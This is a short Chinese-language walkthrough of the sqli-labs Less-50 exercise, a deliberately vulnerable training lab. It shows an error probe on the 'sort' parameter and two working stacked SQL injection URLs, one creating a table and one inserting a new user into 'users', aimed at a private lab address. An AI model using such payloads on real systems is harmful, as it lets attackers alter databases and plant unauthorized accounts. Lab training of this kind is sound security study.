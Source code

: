 ```yaml
---
title: Less - 50
date: 2023-03-22T13:20:39Z
lastmod: 2023-03-22T13:26:23Z
---
```


# Less - 50

---

# 通关教程

---

## 1、判断闭合

---

```http
?sort=1'
```

​![image](assets/image-20230322132346-f4vj1tm.png)​

根据错误信息判断为数字型注入，这里发现这不跟前面有一关一模一样，但是我们通过源代码可知，在本关中使用了mysgli multi guery()函数，而在less46-49关中使用了mysqL fetch_assoc()函数，所以这里的不同点就在于本关可以使用堆叠注入的形式

---

## 2、创建一个表

---

```http
http://192.168.23.128/sqli-labs/Less-50/?sort=1;create table test like users;--+
```

​![image](assets/image-20230322132436-64d1wye.png)​

---

## 3、创建一个新用户

```http
http://192.168.23.128/sqli-labs/Less-50/?sort=1;insert into users values(18,'cmx','cmx');--+
```

​![image](assets/image-20230322132540-tvjqljs.png)​

​![image](assets/image-20230322132621-7agc6y7.png)​

‍
